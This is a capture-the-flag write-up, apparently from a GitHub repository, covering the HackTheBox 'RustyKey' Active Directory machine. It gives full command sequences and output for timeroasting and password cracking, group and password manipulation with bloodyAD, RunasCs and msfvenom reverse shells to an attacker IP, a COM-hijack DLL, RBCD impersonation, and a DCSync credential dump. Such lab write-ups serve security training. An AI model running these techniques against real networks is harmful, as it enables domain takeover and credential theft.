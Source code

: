 # RustyKey

```
OS: Windows
Difficulty - Windows Hard
```
As is common in real-life Windows penetration tests, you will start the RustyKey box with credentials for the following account: rr.parker/8#t5HE8L!W3A

Nmap
The Nmap scan reveals several open ports and services, indicating an Active Directory environment.
```
[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ nmap rustykey.htb -A
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-06-29 13:48:41Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: rustykey.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: rustykey.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
GetTGT (rr.parker)
```
The provided credentials cannot be used directly for authentication via SMB or LDAP.
```
[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ nxc smb 10.10.11.75 -u 'rr.parker' -p '8#t5HE8L!W3A'
SMB         10.10.11.75     445    NONE             [*]  x64 (name:) (domain:) (signing:True) (SMBv1:False)
SMB         10.10.11.75     445    NONE             [-] \rr.parker:8#t5HE8L!W3A STATUS_NOT_SUPPORTED
[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ nxc ldap 10.10.11.75 -u 'rr.parker' -p '8#t5HE8L!W3A'
LDAP        10.10.11.75     389    dc.rustykey.htb  [*]  x64 (name:dc.rustykey.htb) (domain:rustykey.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.75     389    dc.rustykey.htb  [-] rustykey.htb\rr.parker:8#t5HE8L!W3A STATUS_NOT_SUPPORTED
```
To improve client configuration, the /etc/krb5.conf file is modified.
```
[xpl0riz0n㉿XPl0RIz0n] /home/kali  ❯ cat /etc/krb5.conf
[libdefaults]
    default_realm = RUSTYKEY.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = false
    ticket_lifetime = 24h
    forwardable = true
[realms]
    RUSTYKEY.HTB = {
        kdc = 10.10.11.75
    }
[domain_realm]
    .rustykey.htb = RUSTYKEY.HTB
    rustykey.htb = RUSTYKEY.HTB
```

**Access Restricted by HackTheBox Rules**

<!--

A Kerberos ticket is requested for authentication.
```
[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ impacket-getTGT rustykey.htb/'rr.parker':'8#t5HE8L!W3A'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[*] Saving ticket in rr.parker.ccache
[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ export KRB5CCNAME=/home/xpl0riz0n/ctf_OpenVPN//rr.parker.ccache
[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ nxc ldap 10.10.11.75 -u 'rr.parker' -p '8#t5HE8L!W3A' -k
LDAP        10.10.11.75     389    dc.rustykey.htb  [*]  x64 (name:dc.rustykey.htb) (domain:rustykey.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.75     389    dc.rustykey.htb  [+] rustykey.htb\rr.parker:8#t5HE8L!W3A
```
**User Enumerate**

Using the Kerberos ticket, the domain users are enumerated.
```
[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ nxc ldap 10.10.11.75 -u 'rr.parker' -p '8#t5HE8L!W3A' -k --users
LDAP        10.10.11.75     389    dc.rustykey.htb  [*]  x64 (name:dc.rustykey.htb) (domain:rustykey.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.75     389    dc.rustykey.htb  [+] rustykey.htb\rr.parker:8#t5HE8L!W3A
LDAP        10.10.11.75     389    dc.rustykey.htb  [*] Enumerated 11 domain users: rustykey.htb
LDAP        10.10.11.75     389    dc.rustykey.htb  -Username-                    -Last PW Set-       -BadPW- -Description-
LDAP        10.10.11.75     389    dc.rustykey.htb  Administrator                 2025-06-04 22:52:22 3       Built-in account for administering the computer/domain
LDAP        10.10.11.75     389    dc.rustykey.htb  Guest                         <never>             0       Built-in account for guest access to the computer/domain
LDAP        10.10.11.75     389    dc.rustykey.htb  krbtgt                        2024-12-27 00:53:40 0       Key Distribution Center Service Account
LDAP        10.10.11.75     389    dc.rustykey.htb  rr.parker                     2025-06-04 22:54:15 1
LDAP        10.10.11.75     389    dc.rustykey.htb  mm.turner                     2024-12-27 10:18:39 0
LDAP        10.10.11.75     389    dc.rustykey.htb  bb.morgan                     2025-06-29 14:16:40 0
LDAP        10.10.11.75     389    dc.rustykey.htb  gg.anderson                   2025-06-29 14:16:40 0
LDAP        10.10.11.75     389    dc.rustykey.htb  dd.ali                        2025-06-29 14:16:40 1
LDAP        10.10.11.75     389    dc.rustykey.htb  ee.reed                       2025-06-29 14:16:40 0
LDAP        10.10.11.75     389    dc.rustykey.htb  nn.marcos                     2024-12-27 11:34:50 1
LDAP        10.10.11.75     389    dc.rustykey.htb  backupadmin                   2024-12-30 00:30:18 1
```
### Timeroasting to Hash Leak
Prerequisites for using Timeroasting:

The target must be a computer account.

The domain controller must have an NTP service with Microsoft SNTP extensions enabled on UDP port 123.

The attacker can send unauthenticated MS-SNTP requests to the DC.

The attacker can enumerate the RIDs (Relative Identifiers) of computer accounts in the domain.

**(Optional) For "Targeted Timeroasting," domain administrator privileges are needed to temporarily modify user account properties.**

The computer account passwords in the domain are not strongly protected.

The timeroast.py script is used to leak hashes.
```
[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN//Timeroast (main) ❯ python timeroast.py 10.10.11.75
1000:$sntp-ms$541e56ee0785292844cd3a4d402b543b$1c0111e900000000000a104f4c4f434cec0d09c525a2d227e1b8428bffbfcd0aec0d1f45ed925501ec0d1f45ed927b98
1103:$sntp-ms$885a139fd759d37417664243783bbd2e$1c0111e900000000000a104f4c4f434cec0d09c5255a3d63e1b8428bffbfcd0aec0d1f4691626479ec0d1f4691627392
1104:$sntp-ms$50db9bcbb01364753a51d9ad87334e7a$1c0111e900000000000a104f4c4f434cec0d09c525d23c78e1b8428bffbfcd0aec0d1f4691da6033ec0d1f4691da77b0
1105:$sntp-ms$b21dd12e2f54ba103173276b52ac5a28$1c0111e900000000000a10504c4f434cec0d09c525d5ced4e1b8428bffbfcd0aec0d1f4691ddef33ec0d1f4691de085e
1107:$sntp-ms$72c064df6565397579c07a123fa9a581$1c0111e900000000000a10504c4f434cec0d09c523da9288e1b8428bffbfcd0aec0d1f46a3da7b0bec0d1f46a3da9c99
1106:$sntp-ms$523e1fbcb109b13c7c03f77fb94b0abf$1c0111e900000000000a10504c4f434cec0d09c523d78b6ce1b8428bffbfcd0aec0d1f46a3d7617bec0d1f46a3d79c33
1119:$sntp-ms$33ebfc2674e7536ed6d154a740325d72$1c0111e900000000000a10504c4f434cec0d09c52483a464e1b8428bffbfcd0aec0d1f46b87b692cec0d1f46b87b79f3
1120:$sntp-ms$d5261b4a237d17e07add187f73bf05df$1c0111e900000000000a10504c4f434cec0d09c524956dbae1b8428bffbfcd0aec0d1f46b88d2f28ec0d1f46b88d44f7
1121:$sntp-ms$dd30728f5ecc625b7ee31e136619b14f$1c0111e900000000000a10504c4f434cec0d09c524976866e1b8428bffbfcd0aec0d1f46b88f231eec0d1f46b88f42fe
1118:$sntp-ms$2e21c9e9b562fce0810a6758164a4ebd$1c0111e900000000000a10504c4f434cec0d09c524787ce9e1b8428bffbfcd0aec0d1f46b8703298ec0d1f46b8705780
1122:$sntp-ms$5204997edea3423b2673aec76ca560b1$1c0111e900000000000a10504c4f434cec0d09c524a5da19e1b8428bffbfcd0aec0d1f46b89d9323ec0d1f46b89db156
1123:$sntp-ms$06b411c3bf92a0cf9bb14491d1fb7ef0$1c0111e900000000000a10504c4f434cec0d09c524d3f4dfe1b8428bffbfcd0aec0d1f46b8cb8e08ec0d1f46b8cbcf76
1125:$sntp-ms$d7e7fef91094a412a2e8cb82c7716f1a$1c0111e900000000000a10504c4f434cec0d09c52308c3f3e1b8428bffbfcd0aec0d1f46bb191728ec0d1f46bb193052
1124:$sntp-ms$5e8f8d7411278b141ef09ef40a58197f$1c0111e900000000000a10504c4f434cec0d09c523087d7de1b8428bffbfcd0aec0d1f46bb18cba8ec0d1f46bb18ed36
1126:$sntp-ms$31ac85d513769160227bdd504d415377$1c0111e900000000000a10504c4f434cec0d09c523191f8be1b8428bffbfcd0aec0d1f46bb296c0aec0d1f46bb298bea
1127:$sntp-ms$2bb6c5485dbbd37c5cec188a04944677$1c0111e900000000000a10504c4f434cec0d09c523251208e1b8428bffbfcd0aec0d1f46bb356034ec0d1f46bb358014
```
Hashcat is used to crack the password for the hash with RID 1125.
```
Dictionary cache built:
* Filename..: rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec
$sntp-ms$d7e7fef91094a412a2e8cb82c7716f1a$1c0111e900000000000a10504c4f434cec0d09c52308c3f3e1b8428bffbfcd0aec0d1f46bb191728ec0d1f46bb193052:R....y88!
```
Approaching final keyspace - workload adjusted.
The cracked password is R.....!, which corresponds to the computer account with RID 1125, IT-CONPUTER3$.

Bloodhound
Bloodhound is used to enumerate the domain and identify potential attack paths.
```
[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ bloodhound-python  -u 'rr.parker' -p '8#XXXXXXX!W3A' -k -d rustykey.htb -ns 10.10.11.75 -c ALl --zip
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: rustykey.htb
INFO: Using TGT from cache
INFO: Found TGT with correct principal in ccache file.
INFO: Connecting to LDAP server: dc.rustykey.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 16 computers
INFO: Connecting to LDAP server: dc.rustykey.htb
INFO: Found 13 users
INFO: Found 58 groups
INFO: Found 2 gpos
INFO: Found 10 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer:
INFO: Querying computer:
...
WARNING: DCE/RPC connection failed: [Errno Connection error (10.10.11.75:445)] timed out
...
INFO: Done in 01M 37S
INFO: Compressing output into 20250701095916_bloodhound.zip
```

![BH Start](Pictures/htb_Rustykey_bh_start.png)

View external permissions

![BH Start](Pictures/htb_Rustykey_bh_start2.png)

![BH Start](Pictures/htb_Rustykey_bh_start3.png)


AddSelf to Helpdesk
Using the IT-COMPUTER3$ account, a Kerberos ticket is obtained.
```
[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ impacket-getTGT rustykey.htb/'IT-COMPUTER3$':'R.....!'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[*] Saving ticket in IT-COMPUTER3$.ccache
[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ export KRB5CCNAME=/home/xpl0riz0n/ctf_OpenVPN//IT-COMPUTER3\$.ccache
```
The IT-COMPUTER3$ account is then added to the HELPDESK group.
```
[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ bloodyAD -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'R.....!' add groupMember HELPDESK 'IT-COMPUTER3$'
[+] IT-COMPUTER3$ added to HELPDESK
```
Change Password & GetTGT (Failed)

An attempt is made to change bb.morgan's password.
```
[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ bloodyAD -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'R.....!' set password bb.morgan 'Abc123456@'
[+] Password changed successfully!
```
However, a Kerberos ticket cannot be obtained for bb.morgan. This is likely because the HELPDESK group is part of PROTECTED OBJECTS.
```
[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ impacket-getTGT rustykey.htb/'bb.morgan':'Abc123456@'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
Kerberos SessionError: KDC_ERR_ETYPE_NOSUPP(KDC has no support for encryption type)
```
![BH Start](Pictures/htb_Rustykey_bh_start4.png)

To proceed, the IT group is removed from PROTECTED OBJECTS.
```
[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ bloodyAD -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'R.....!' remove groupMember 'PROTECTED OBJECTS' 'IT'
[-] IT removed from PROTECTED OBJECTS
```
The password for bb.morgan is changed again, and this time, a Kerberos ticket is successfully obtained.
```
[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ bloodyAD -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'R.....!' set password bb.morgan 'Abc123456@'
[+] Password changed successfully!

[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ impacket-getTGT rustykey.htb/'bb.morgan':'Abc123456@'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[*] Saving ticket in bb.morgan.ccache

[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ export KRB5CCNAME=/home/xpl0riz0n/ctf_OpenVPN//bb.morgan.ccache
```

Finally, a shell is obtained using evil-winrm.
```
[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ evil-winrm -i dc.rustykey.htb -u 'bb.morgan' -r rustykey.htb
Evil-WinRM shell v3.7
...
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\bb.morgan\Documents> type ../desktop/user.txt
<hidden>
PDF in Desktop
A PDF file named internal.pdf is found on the desktop.

*Evil-WinRM* PS C:\Users\bb.morgan\desktop> ls
Directory: C:\Users\bb.morgan\desktop
Mode                LastWriteTime         Length Name
----                -------------         ------ -----
a----         6/4/2025   9:15 AM           1976 internal.pdf
-ar---         7/1/2025   2:54 AM             34 user.txt
*Evil-WinRM* PS C:\Users\bb.morgan\desktop> download internal.pdf
Info: Downloading C:\Users\bb.morgan\desktop\internal.pdf to internal.pdf
```
![Pwned! User](Pictures/htb_Rustykey_User_flag.png)

![BH Start](Pictures/htb_Rustykey_Internal_DOC.png)

**Owned! bb.morgan**

The PDF states that the SUPPORT group has been granted extended permissions to test file archiving functions and may make registry adjustments. The user EE.REED is in the SUPPORT group and the PROTECTED OBJECTS group.

![BH Start](Pictures/htb_Rustykey_bh_start5.png)

![BH Start](Pictures/htb_Rustykey_bh_start6.png)

Remove SUPPORT from Protection

Similar to the previous step, the SUPPORT group is removed from PROTECTED OBJECTS.

```
[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ export KRB5CCNAME=/home/xpl0riz0n/ctf_OpenVPN//IT-COMPUTER3\$.ccache

[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ bloodyAD -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'R.....!' remove groupMember 'PROTECTED OBJECTS' 'SUPPORT'
[-] SUPPORT removed from PROTECTED OBJECTS
```
The password for ee.reed is changed.
```
[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ bloodyAD -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'R.....!' set password ee.reed 'Abc123456@'
[+] Password changed successfully!
```
However, logging in directly with ee.reed fails.

**RunasCs (ee.reed)**

RunasCs.exe is uploaded to the target machine and used to spawn a reverse shell as ee.reed.

```
*Evil-WinRM* PS C:\Users\bb.morgan\Documents> upload /home/xpl0riz0n/ctf_OpenVPN//RunasCs.exe
Info: Uploading /home/xpl0riz0n/ctf_OpenVPN//RunasCs.exe to C:\Users\bb.morgan\Documents\RunasCs.exe
Data: 68948 bytes of 68948 bytes copied
Info: Upload successful!
*Evil-WinRM* PS C:\Users\bb.morgan\Documents> .\RunasCS.exe ee.reed Abc123456@ powershell.exe -r 10.10.16.47:6666
...
[+] Async process 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' with pid 6836 created in background.
A listener on the attacker machine receives the connection.

[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ nc -lvnp 6666
listening on [any] 6666 ...
connect to [10.10.16.47] from (UNKNOWN) [10.10.11.75] 62377
Windows PowerShell Copyright (C) Microsoft Corporation. All rights reserved.
PS C:\Windows\system32> whoami
rustykey\ee.reed
PS C:\Windows\system32>
COM Hijack
The PDF mentioned registry adjustments related to compression. A search for COM components related to "zip" is performed.

PS C:\tmp> reg query HKCR\CLSID /s /f "zip"
...
HKEY_CLASSES_ROOT\CLSID\{23170F69-40C1-278A-1000-000100020000}
    (Default)    REG_SZ    7-Zip Shell Extension
HKEY_CLASSES_ROOT\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32
    (Default)    REG_SZ    C:\Program Files\7-Zip\7-zip.dll
...
End of search: 14 match(es) found.
```

msfvenom is used to create a malicious DLL for a reverse Meterpreter shell.

```
[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.47 LPORT=4444 -f dll -o hack.dll
...
Payload size: 510 bytes
Final size of dll file: 9216 bytes
Saved as: hack.dll
```

The malicious DLL is uploaded, and the registry key for the 7-Zip Shell Extension is modified to point to it.

```
PS C:\tmp> reg add "HKLM\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" /ve /d "C:\tmp\hack.dll" /f
The operation completed successfully.
```
A Meterpreter listener is started, and a session is opened when the registry key is triggered. The session reveals the user mm.turner.

![BH Start](Pictures/htb_Rustykey_bh_start7.png)

```
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.16.47:4444
[*] Sending stage (203846 bytes) to 10.10.11.75
[*] Meterpreter session 1 opened (10.10.16.47:4444 -> 10.10.11.75:62445) at 2025-07-01 11:32:19 -0400
meterpreter > getuid
Server username: RUSTYKEY\mm.turner
meterpreter >
RBCD
The mm.turner account has AddAllowedToAct permissions. This allows for a Resource-based constrained delegation (RBCD) attack. The IT-COMPUTER3$ account is used to impersonate the backupadmin account.

meterpreter > shell
Process 11164 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.7434]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows>powershell.exe
powershell.exe
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows> Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount IT-COMPUTER3$
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount IT-COMPUTER3$
```

![Elevate](Pictures/htb_Rustykey_eed_elevated.png)

A service ticket is requested for the backupadmin account, impersonating it.

![BH Start](Pictures/htb_Rustykey_bh_start8.png)

```
[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ export KRB5CCNAME=/home/xpl0riz0n/ctf_OpenVPN//IT-COMPUTER3\$.ccache

[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ impacket-getST -spn 'cifs/DC.rustykey.htb' -impersonate backupadmin -dc-ip 10.10.11.75 -k 'rustykey.htb/IT-COMPUTER3$:R.....!'
...
[*] Saving ticket in backupadmin@cifs_DC.rustykey.htb@RUSTYKEY.HTB.ccache

[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ export KRB5CCNAME=/home/xpl0riz0n/ctf_OpenVPN//backupadmin@cifs_DC.rustykey.htb@RUSTYKEY.HTB.ccache
```

Finally, wmiexec is used to get a shell as backupadmin.

```
[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ impacket-wmiexec -k -no-pass 'rustykey.htb/backupadmin@dc.rustykey.htb'
...
C:\>whoami
rustykey\backupadmin
C:\>
DCsync
With backupadmin privileges, a DCSync attack is performed to dump all domain credentials, including the administrator's hash.

[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ impacket-secretsdump -k -no-pass 'rustykey.htb/backupadmin@dc.rustykey.htb'
...
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:<hidden>:::
...
A Kerberos ticket is requested for the administrator account using the dumped hash.

[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ impacket-getTGT rustykey.htb/'Administrator' -hashes ":<hidden>"
[*] Saving ticket in Administrator.ccache

[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ export KRB5CCNAME=/home/xpl0riz0n/ctf_OpenVPN//Administrator.ccache
A final evil-winrm session is opened as the administrator.

[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ evil-winrm -i dc.rustykey.htb -u 'Administrator' -r rustykey.htb
...
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
rustykey\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

![BH Root](Pictures/htb_Rustykey_Root_flag.png)


#### 🏁 Summary of Attack Chain

```
| Step | User / Access | Technique Used | Result |
|---|---|---|---|
| 1 | rr.parker | nmap, nxc, impacket-getTGT | Initial access to Active Directory services via Kerberos. Confirmed successful authentication with provided credentials after configuring krb5.conf. |
| 2 | rr.parker | nxc ldap --users, timeroast.py, hashcat | Performed user enumeration via LDAP. Discovered computer account hashes by exploiting a Timeroasting vulnerability and cracked the password for IT-COMPUTER3$. |
| 3 | IT-COMPUTER3$ | bloodyAD, impacket-getTGT, evil-winrm | Used bloodyAD to remove the IT group from PROTECTED OBJECTS, allowing a password reset for bb.morgan. Logged in via evil-winrm and obtained the user.txt flag. |
| 4 | ee.reed | RunasCs, nc | Found a PDF mentioning that the SUPPORT group has temporary registry modification rights. Used RunasCs to get a PowerShell reverse shell as ee.reed. |
| 5 | ee.reed | reg add, msfvenom | Performed a COM Hijack by creating a malicious DLL with msfvenom and modifying the InprocServer32 registry key for 7-Zip. This granted a Meterpreter session as mm.turner. |
| 6 | mm.turner | Set-ADComputer | Exploited Resource-based Constrained Delegation (RBCD) by using mm.turner's permissions to configure the DC computer object to delegate to IT-COMPUTER3$. |
| 7 | backupadmin | impacket-getST, impacket-wmiexec | Used impacket-getST to impersonate backupadmin via Kerberos delegation. Gained a shell with impacket-wmiexec as backupadmin. |
| 8 | administrator | impacket-secretsdump, impacket-getTGT, evil-winrm | Performed a DCSync attack to dump all domain user hashes, including the Administrator's. Used the Administrator's hash to obtain a ticket and logged in with evil-winrm to gain full control of the domain controller. |
```




**Pwned! RustKey**

-->